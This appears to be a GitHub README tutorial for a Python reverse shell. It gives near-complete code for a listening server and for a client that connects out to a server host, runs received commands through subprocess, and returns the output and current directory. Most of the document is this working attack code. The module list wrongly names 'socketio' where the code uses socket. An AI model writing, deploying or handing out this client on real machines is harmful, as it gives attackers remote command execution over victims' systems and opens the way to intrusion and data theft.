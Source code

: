 # Python Reverse Shell

## Modules used
- os
- socketio
- subprocess
- sys

## Description Server
First of all I created server side. I used socketio to create listening connection.

``` python
import socket

# create a socket object
s = socket.socket()

# bind port and host
s.bind((<SERVER_HOST>, <SERVER_PORT>))
# SERVER_HOST is 0.0.0.0 to get all connections

# started to listen for connection
s.listen()
```

### accept any connections attempted
``` python
client_socket, client_address = s.accept()
print(f"{client_address[0]}:{client_address[1]} Connected!")

```

### Create a while loop to stay connection waked
``` python
while True:
    # get the command from prompt
    command = input(f"{cwd} $> ")
    if not command.strip():
        # empty command
        continue
    # send the command to the client
    client_socket.send(command.encode())
    if command.lower() == "exit":
        # if the command is exit, just break out of the loop
        break
    # retrieve command results
    output = client_socket.recv(BUFFER_SIZE).decode()
    # split command output and current directory
    results, cwd = output.split(SEPARATOR)
    # print output
    print(results)
```

## Description Client

### import all required models
``` python
import socket
import os
import subprocess
import sys
```

### create the socket object and connect to the server
``` python
s = socket.socket()
s.connect((SERVER_HOST, SERVER_PORT))
```

### get the current directory
``` python
cwd = os.getcwd()
s.send(cwd.encode())
```

### Creating a loop to stay connection waked
``` python
while True:
    # receive the command from the server
    command = s.recv(BUFFER_SIZE).decode()
    splited_command = command.split()
    if command.lower() == "exit":
        # if the command is exit, just break out of the loop
        break
    if splited_command[0].lower() == "cd":
        # cd command, change directory
        try:
            os.chdir(' '.join(splited_command[1:]))
        except FileNotFoundError as e:
            # if there is an error, set as the output
            output = str(e)
        else:
            # if operation is successful, empty message
            output = ""
    else:
        # execute the command and retrieve the results
        output = subprocess.getoutput(command)
    # get the current working directory as output
    cwd = os.getcwd()
    # send the results back to the server
    message = f"{output}{SEPARATOR}{cwd}"
    s.send(message.encode())
# close client connection
s.close()
```
